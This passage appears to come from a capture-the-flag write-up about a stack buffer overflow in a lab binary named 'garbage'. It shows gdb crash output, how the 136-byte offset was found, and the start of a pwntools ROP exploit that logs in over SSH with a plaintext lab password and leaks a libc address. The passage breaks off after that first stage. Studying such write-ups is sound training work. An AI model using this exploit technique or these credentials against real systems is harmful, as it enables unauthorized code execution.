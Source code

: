 ```bash
   0x401619 <main>:     push   rbp
   0x40161a <main+1>:   mov    rbp,rsp
   0x40161d <main+4>:   sub    rsp,0x10
   0x401621 <main+8>:   mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe078 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffe080 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffe088 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffe090 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffe098 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffe0a0 ("AuAAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffe0a8 ("AAYAAwAAZAAxAAyA")
0056| 0x7fffffffe0b0 ("ZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401618 in auth ()
```

* Search for the offset by running `pattern_offset` with the first 8 characters in `RSP`

```bash
gdb-peda$ pattern_offset AAQAAmAA
AAQAAmAA found at offset: 136
```

It looks like we need 136 bytes of junk before controlling `RSP` (stack pointer). The content of `RSP` gets loaded into `RIP` (instruction pointer) when `ret` gets called. Therefore, we can jump to whatever address we like by putting it into `RSP`.

I would have spent ages on exploiting that box with no experience with ROP. Luckily, there is a video from Ippsec, [Camp CTF 2015 - Bitterman](https://www.youtube.com/watch?v=6S4A2nhHdWg), where he shows how to solve a ROP challenge that is very similar to this one.

I solved the challenge in two different ways, as described in the video:

### Version a: Manual exploit

```python

from pwn import *
import cryptography.utils
import warnings

warnings.simplefilter("ignore", cryptography.utils.DeprecatedIn25)

context(terminal=['tmux', 'new-window'])

# p = process('./garbage')
#p = gdb.debug('./garbage', 'b auth')
shell = ssh('margo', '10.10.10.139', password='iamgod$08', port=22)
p = shell.run('/usr/bin/garbage')

context(os='linux', arch='amd64')
# context.log_level = 'debug'

# Stage 1: Leak memory address
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = 'A' * 136

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
```